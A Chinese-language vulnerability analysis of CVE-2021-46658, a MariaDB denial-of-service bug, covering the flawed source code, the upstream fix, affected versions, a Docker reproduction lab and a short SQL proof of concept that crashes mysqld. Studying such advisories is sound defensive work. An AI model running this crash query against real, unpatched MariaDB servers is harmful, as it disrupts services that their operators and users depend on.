



# CVE-2021-46658 CWE-None MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理

优化器或表达式包装器未正确继承 `with_window_func = true` 标志，导致 `save_window_function_values()` 在处理带窗口函数的子查询时上下文不一致，从而触发进程崩溃

## 漏洞定位

分析 MariaDB 10.6.0：

1. 在 sql\item_cmpfunc.cc 文件，第 1363 行`Item_in_optimizer::fix_fields`函数用于处理 `IN (subquery)` 表达式。有逻辑来从子表达式（`args[0]` 和 `args[1]`）继承和设置多种状态标志，但是忽略了`with_window_func` 标志。因此，`Item_in_optimizer` 这个父对象自身的 `with_window_func` 标志将保持其默认值 `false`。

   之后的函数（如 `save_window_function_values`）需要使用那个本该被初始化的窗口函数内存结构。因为它从未被分配，代码此时访问的是一个空指针，直接导致 `mysqld` 进程崩溃。

   代表 `IN (subquery)` 结构的父节点（`Item_in_optimizer`）以及表达式缓存包装器（`Item_cache_wrapper`）没有正确地从其包含的子表达式中“继承” `with_window_func` 这个状态标志。

   ```c
   bool Item_in_optimizer::fix_fields(THD *thd, Item **ref)
   {
     DBUG_ASSERT(fixed == 0);
     Item_subselect *sub= 0;
     uint col;
   
     /*
        MAX/MIN optimization can convert the subquery into
        expr + Item_singlerow_subselect
      */
     if (args[1]->type() == Item::SUBSELECT_ITEM)
       sub= (Item_subselect *)args[1];
   
     if (fix_left(thd))
       return TRUE;
     if (args[0]->maybe_null)
       maybe_null=1;
   
     if (args[1]->fix_fields_if_needed(thd, args + 1))
       return TRUE;
     if (!invisible_mode() &&
         ((sub && ((col= args[0]->cols()) != sub->engine->cols())) ||
          (!sub && (args[1]->cols() != (col= 1)))))
     {
       my_error(ER_OPERAND_COLUMNS, MYF(0), col);
       return TRUE;
     }
     if (args[1]->maybe_null)
       maybe_null=1;
     m_with_subquery= true;
     join_with_sum_func(args[1]);
     with_field= with_field || args[1]->with_field;
     with_param= args[0]->with_param || args[1]->with_param; 
     used_tables_and_const_cache_join(args[1]);
     fixed= 1;
     return FALSE;
   }
   ```

2. 在sql\item.cc 文件，第 8584 行，当表达式被放入缓存时，会被一个名为 `Item_cache_wrapper` 的对象包裹起来。这个包裹对象同样未能继承原始表达式的 `with_window_func=true` 状态。

   ```cpp
   Item_cache_wrapper::Item_cache_wrapper(THD *thd, Item *item_arg):
     Item_result_field(thd), orig_item(item_arg), expr_cache(NULL), expr_value(NULL)
   {
     DBUG_ASSERT(orig_item->is_fixed());
     Type_std_attributes::set(orig_item);
     maybe_null= orig_item->maybe_null;
     copy_with_sum_func(orig_item);
     with_param= orig_item->with_param;
     with_field= orig_item->with_field;
     name= item_arg->name;
     m_with_subquery= orig_item->with_subquery();
   
     if ((expr_value= orig_item->get_cache(thd)))
       expr_value->setup(thd, orig_item);
   
     fixed= 1;
   }
   ```

## 漏洞修复


`Item_in_optimizer::fix_fields()` 中添加了一条新规则：整个 `IN` 表达式是否包含窗口函数取决于其左侧的表达式 (`args[0]`)。因此，`with_window_func = true` 状态成功地从子表达式“继承”到父表达式。

```c
with_window_func= args[0]->with_window_func;
// The subquery cannot have window functions aggregated in this select
DBUG_ASSERT(!args[1]->with_window_func);
```

修改`Item_cache_wrapper`的代码，以确保在包装表达式时，它也继承`with_window_func`标志。

```cpp
with_window_func= orig_item->with_window_func;
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.39
- 10.3.0 至 10.3.30
- 10.4.0 至 10.4.20
- 10.5.0 至 10.5.11
- 10.6.0 至 10.6.2

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.0，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46658-PoC.sql 。

```txt
NIST: NVD Base Score: 5.5 MEDIUMVector:  CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.0:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46658-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46658-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 (i int);
INSERT INTO t1 VALUES (1),(2),(3);

SELECT sum(i) over () IN (
  SELECT 1 FROM t1 a
) FROM t1;
```

`args[0]` 代表 `IN` 左侧的表达式，即 `sum(i) over ()`。`args[1]` 代表 `IN` 右侧的子查询。

MariaDB 解析 SQL，为 `sum(i) over ()` 创建一个表达式项，其 `with_window_func` 标志被正确设置为 `true`。然后，它为整个 `... IN (SELECT ...)` 结构创建一个 `Item_in_optimizer` 父节点。`sum(i) over ()` 成为这个父节点的 `args[0]`。

之后`Item_in_optimizer::fix_fields` 函数被调用，但它内部没有代码去查看 `args[0]` 的状态。因此，这个代表 `IN` 表达式的父节点，其自身的 `with_window_func` 标志位为 `false`。此时，查询优化器和执行引擎查看这个父节点，得出的结论是：“这个 `IN` 表达式里没有窗口函数”，尽管它里面明明有一个。

由于系统认为查询的这一部分不涉及窗口函数，所以它不会去分配和初始化处理窗口函数所必需的内存结构。然而，当实际执行计算时，引擎终究要深入到 `args[0]` 去计算 `sum(i) over ()` 的值。在计算 `sum(i) over ()` 时，相关的函数（如 `save_window_function_values`）需要使用那个本该被初始化的窗口函数内存结构。因为它从未被分配，代码此时访问的是一个空指针，直接导致 `mysqld` 进程崩溃。

## 参考链接


[NVD - CVE-2021-46658](https://nvd.nist.gov/vuln/detail/CVE-2021-46658)

[[MDEV-25630\] Crash with window function in left expr of IN subquery - Jira](https://jira.mariadb.org/browse/MDEV-25630)

[MDEV-25630: Crash with window function in left expr of IN subquery · MariaDB/server@c872125](https://github.com/MariaDB/server/commit/c872125a664842ecfb66c60f69b3a87390aec23d#diff-7332903e826268679fac3469101e653da54e1c784e3c4c01403ca8e76d535ac0)

